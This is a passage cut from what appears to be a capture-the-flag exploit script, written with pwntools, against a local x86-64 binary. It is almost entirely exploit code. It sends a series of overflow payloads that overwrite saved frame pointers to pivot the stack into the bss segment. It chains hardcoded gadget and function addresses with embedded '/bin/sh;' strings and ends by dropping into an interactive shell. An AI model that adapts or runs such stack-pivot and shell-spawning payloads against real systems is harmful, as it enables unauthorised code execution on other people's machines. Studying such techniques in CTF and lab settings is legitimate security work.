pay  = pay.ljust(0x70,b'\x00')
pay += p64(bsstext-8+0x70+0x198+0x20)
s(pay)


pause()

#sl(str(int(b'sh;'[::-1].hex(),16)))


ru(':')
sl('2')
ru('plz: ')
pay  = p64(bsstext-8+0x70+0x198+0x38+0x18) + p64(0x401824)
pay += b'/bin/sh;'
pay += pay.rjust(0x58,b'A')
pay += p64(bsstext-8+0x70+0x198+0x38)
pay += p64(0x401BC7)
s(pay)

#gdb.attach(io,gdbscript)


pop_rbp = 0x000000000040141d # pop rbp ; ret

pause()

pay = b'A' * 0x60
pay += p64(pop_rbp) + p64(0x404000+0x800)
pay += p64(0x401824)
s(pay)

pause()

pay  = p64(0x404820)*2+b'B' * 0x60
pay += p64(0x401C2F)
pay += p64(pop_rbp) + p64(0x404000+0x800-0x70+0x18)
pay += p64(0x0401C00)
pay += b'/bin/sh;'
s(pay)

itr()

```

‍

‍



‍
